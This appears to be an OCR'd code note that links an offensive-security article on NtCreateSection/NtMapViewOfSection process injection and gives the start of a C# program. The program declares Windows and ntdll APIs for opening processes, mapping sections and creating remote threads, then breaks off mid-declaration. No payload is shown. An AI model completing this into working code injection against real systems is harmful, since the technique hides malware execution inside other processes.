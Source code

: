 https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection


need to make changes into nt function above.

Copied from someplace

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace c_hash_project
{
    class Program
    {
        // OpenProcess - kernel32.dll
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        // CreateRemoteThread - kernel32.dll
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        // GetCurrentProcess - kernel32.dll
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetCurrentProcess();

        // ntdll.dll API functions:
        // NtCreateSection
        [DllImport("ntdll.dll")]
        public static extern UInt32 NtCreateSection(
            ref IntPtr section,
            UInt32 desiredAccess,
            IntPtr pAttrs,
            ref long MaxSize,
            uint pageProt,
            uint allocationAttribs,
            IntPtr hFile);

        // NtMapViewOfSection
        [DllImport("ntdll.dll")]
        public static extern UInt32 NtMapViewOfSection(
            IntPtr SectionHandle,
            IntPtr ProcessHandle,
            ref IntPtr BaseAddress,
            IntPtr ZeroBits,
            IntPtr CommitSize,
            ref long SectionOffset,
            ref long ViewSize,
            uint InheritDisposition,
            uint AllocationType,
            uint Win32Protect);

        // NtUnmapViewOfSection
        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(
            IntPtr hProc,
```